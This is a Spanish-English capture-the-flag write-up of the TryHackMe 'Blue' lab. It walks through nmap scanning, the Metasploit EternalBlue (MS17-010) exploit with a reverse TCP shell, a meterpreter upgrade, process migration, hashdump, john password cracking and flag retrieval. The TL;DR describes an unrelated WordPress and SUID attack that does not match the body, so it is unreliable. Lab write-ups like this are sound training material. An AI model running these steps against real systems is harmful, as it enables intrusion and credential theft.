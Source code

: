 # Blue — Writeup

**Fecha:** 5-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontró un WordPress vulnerable, se obtuvieron credenciales por fuerza bruta, se subió un reverse shell editando la plantilla 404, se consiguió shell como www-data, se mejoró a TTY interactiva y se explotó /usr/bin/find con SUID para elevar a root y leer las flags.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)
**Search Exploit**
```bash
  msfconsole
  msf > search windows 7 eternalblue
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```
**Comment:** ``msfconsole`` abre la interfaz de Metasploit.


**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
	{...}
  meterpreter > 
```
## Privilege Escalation

**Shell to Meterpreter**
```bash
 meterpreter > (CTRL+Z) 
Background session 1? [y/N] y
msf > search shell_to_meterpreter
#  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade
```
**List Sessions**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions -l
Active sessions
===============
  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  $IP -> $IP ($IP)

```
**Set & Run Meterpreter Shell**
```bash
 msf > Use 0
 msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
 msf post(multi/manage/shell_to_meterpreter) > run
 msf post(multi/manage/shell_to_meterpreter) > sessions 2
```

**Migrate Shell**
```bash
meterpreter > ps
Process List
============

 PID   PPID  Name            Arch  Session  User                      Path
 ---   ----  ----            ----  -------  ----                      ----
 716   616   services.exe    x64   0        NT AUTHORITY\SYSTEM       C:\Windows\system32\serv
                                                                      ices.exe
meterpreter > migrate 716
[*] Migrating from 704 to 716...
[*] Migration completed successfully.
```
**Comment:** Migramos la shell a un proceso mas estable.

## Hash
**Getting Hash**
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
**Cracking**
```bash
	john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT userhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED         (?)     
1g 0:00:00:01 DONE (2025-10-10 15:29) 0.9174g/s 9358Kp/s 9358Kc/s 9358KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

## Flags
**Flag 1**
```bash
meterpreter > cd /
meterpreter > cat flag1.txt
```

**Flag 2**
```bash
meterpreter > cd /Windows/system32/config
meterpreter > cat flag2.txt
```

**Flag 3**
```bash
meterpreter > cd /Users/Jon/Documents
meterpreter > cat flag3.txt
```
